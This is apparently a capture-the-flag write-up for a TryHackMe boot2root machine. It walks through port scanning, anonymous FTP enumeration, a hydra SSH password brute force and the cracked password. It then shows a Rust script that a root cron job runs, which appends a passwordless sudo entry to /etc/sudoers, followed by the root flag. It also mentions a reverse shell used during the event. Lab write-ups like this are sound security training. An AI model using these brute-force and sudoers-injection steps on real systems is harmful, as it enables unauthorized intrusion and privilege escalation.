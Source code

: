 ```yaml
---
description: https://tryhackme.com/room/yctfweek2Mv
---
```


# VM - boot2root



## Port scan

* i used rustscan to see what ports are open (21 and 22)
* nmap scan results :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.102.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:fa:d2:43:4e:e7:6c:1f:49:19:f3:3f:ae:8c:e2:00 (RSA)
|   256 48:57:12:7e:c2:10:4d:0d:1f:1a:d6:65:f5:4e:a6:7f (ECDSA)
|_  256 93:b2:43:81:5f:0c:73:af:84:b1:45:ba:21:ac:c2:54 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

* only 2 ports were open,

## FTP&#x20;

* anonymous login was allowed

```bash
└─➜ ftp 10.10.103.104                                                                                                                                                                    [1]
Connected to 10.10.103.104.
220 (vsFTPd 3.0.5)
Name (10.10.103.104:kyubi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
226 Directory send OK.

ftp> get welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (69 bytes).
226 Transfer complete.
69 bytes received in 0.0013 seconds (52 kbytes/s)

ftp> bye
221 Goodbye.
```

### Contents of welcome.txt

```bash
Hello I am melodi and welcome to my simple FTP server.

Thank You :)
```

* Username : melodi

## SSH&#x20;

* since no http port was open, my next thought was to **bruteforce** the password

### hydra bruteforce

```bash
└─➜ hydra -l melodi -P /usr/share/wordlists/rockyou.txt 10.10.103.104 ssh -t 4                                                                                                           [0]
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-10 12:37:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.103.104:22/
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 14344317 to do in 2951:31h, 4 active
[22][ssh] host: 10.10.103.104   login: melodi   password: princess1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-10 12:38:56

```

### Password found : princess1



## User flag

```bash
└─➜ ssh melodi@10.10.103.104                                                                                                                                                           [130]
The authenticity of host '10.10.103.104 (10.10.103.104)' can't be established.
ED25519 key fingerprint is SHA256:G7f5Il1Yitj0F1y5OmeYSgwUVJbsq01WBas04KF+LPo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:36: 10.10.224.19
    ~/.ssh/known_hosts:38: 10.10.211.116
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.103.104' (ED25519) to the list of known hosts.
melodi@10.10.103.104's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Dec  7 18:33:34 2023
melodi@ubuntu:~$ ls
fl4g.txt
melodi@ubuntu:~$ cat fl4g.txt
YCTF{15_1t_e45y??}

```

### Flag : YCTF{15\_1t\_e45y??}



## Root flag

* I used **pspy64** script to see what all proccess were running on the machine

```bash
2023/12/09 19:35:01 CMD: UID=0     PID=14136  | /root/.cargo/bin/rustc /tmp/hello.rs
2023/12/09 19:35:01 CMD: UID=0     PID=14135  | /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14134  | /bin/sh -c /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14133  | /usr/sbin/CRON -f
```

* every minute root compiles the script under `/tmp/hello.rs` and (runs it?)
* Let's add ourself in sudoers list (NOTE: this isn't the way i solved this machine)
* before :&#x20;

```bash
melodi@ubuntu:/tmp$ sudo -l
[sudo] password for melodi:
Sorry, user melodi may not run sudo on ubuntu.
```

* script :&#x20;

```rust
use std::fs::OpenOptions;
use std::io::{self, Write};
use std::path::Path;

fn main() {
    let username = "melodi";

    // Path to the sudoers file
    let sudoers_path = "/etc/sudoers";

    // Check if the file exists
    if !Path::new(sudoers_path).exists() {
        eprintln!("Error: sudoers file not found at {}", sudoers_path);
        return;
    }

    // Open the sudoers file for appending
    let mut file = match OpenOptions::new().append(true).open(sudoers_path) {
        Ok(file) => file,
        Err(err) => {
            eprintln!("Error opening sudoers file: {}", err);
            return;
        }
    };

    // Prepare the line to be added to the sudoers file
    let sudoers_line = format!("{}   ALL=(ALL:ALL) NOPASSWD: ALL\n", username);

    // Write the line to the sudoers file
    match file.write_all(sudoers_line.as_bytes()) {
        Ok(_) => println!("Passwordless sudo access added for user: {}", username),
        Err(err) => eprintln!("Error writing to sudoers file: {}", err),
    }
}
```

* After a minute our script will be run by the root user

```bash
melodi@ubuntu:/tmp$ sudo -l
Matching Defaults entries for melodi on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User melodi may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

* woo hooooo, we can run sudo now, without any password

```bash
melodi@ubuntu:/tmp$ sudo /bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cd /root
root@ubuntu:~# ls
r00t.txt  script.sh
root@ubuntu:~# cat r00t.txt
YCTF{1t5_v3ry_ru5ty_h3r3!!}
```

* btw i used another script during CTF, a script that had rev shell payload for my local machine, i listen on my local machine with netcat and got root shell.

### Flag: YCTF{1t5\_v3ry\_ru5ty\_h3r3!!}

## Pwned

\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
